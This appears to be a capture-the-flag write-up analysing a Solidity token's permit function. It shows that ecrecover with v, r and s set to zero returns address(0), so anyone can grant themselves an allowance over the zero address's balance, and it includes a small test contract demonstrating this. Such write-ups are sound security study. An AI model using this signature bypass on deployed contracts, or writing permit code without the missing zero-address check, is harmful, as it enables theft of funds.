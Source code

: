 To make short, we have two interesting functions, `privilegeWithdraw` and `permit`.

The first one transfer address(0) coin to msg.sender but we need to be the owner of the contract so it sucks.

```solidity
function privilegedWithdraw() onlyOwner external {
        uint wad = balanceOf[address(0)];
        balanceOf[address(0)] = 0;
        payable(msg.sender).transfer(wad);
        emit PrivilegedWithdrawal(msg.sender, wad);
    }
```

The second one allow us to set allowance value for a `spender` address on `owner` address if we manage to confirm that `spender` is the `owner` (specified in the function, not the contract owner) by verifiying a signature with ecdsa.


```solidity
 function permit(
        address owner,
        address spender,
        uint256 value,
        uint256 deadline,
        uint8 v,
        bytes32 r,
        bytes32 s
    ) external {
        require(block.timestamp <= deadline, "signature expired");
        bytes32 structHash = keccak256(
            abi.encode(PERMIT_TYPEHASH, owner, spender, value, nonces[owner]++, deadline)
        );
        bytes32 h = _hashTypedDataV4(structHash);
        address signer = ecrecover(h, v, r, s);
        require(signer == owner, "invalid signer");
        allowance[owner][spender] = value;
```

So we need to have `signer == owner` meaning : `ecrecover(h,v,r,s) == 0x0000000000000000000000000000000000000000`

## Vulnerability

Here the vulnerability is that we can choose the v, r and s parameter in order to get a null signature.

Testing `ecrecover()` locally i found that with any `h` if `v = r = s = 0` , then `ecrecover(h,v,r,s) == 0 == address(0)`

With this test contract :

```solidity
pragma solidity ^0.8.25;

contract Testsignatures {

    bytes32 public hash = 0x24c36029f1c6a76aeef30e9ab8c3eeacb5609cc1ee2962e660ce2313c5696c4a;
    uint8 public v = 0;
    bytes32 public r = 0x0000000000000000000000000000000000000000000000000000000000000000;
    bytes32 public s = 0x0000000000000000000000000000000000000000000000000000000000000000;

    address public signer = 0x55EB72D6588c64E202AA006b4Ea380275E9A4B25;
    
    function sign() public {

        signer = ecrecover(hash, v, r, s);
    }
```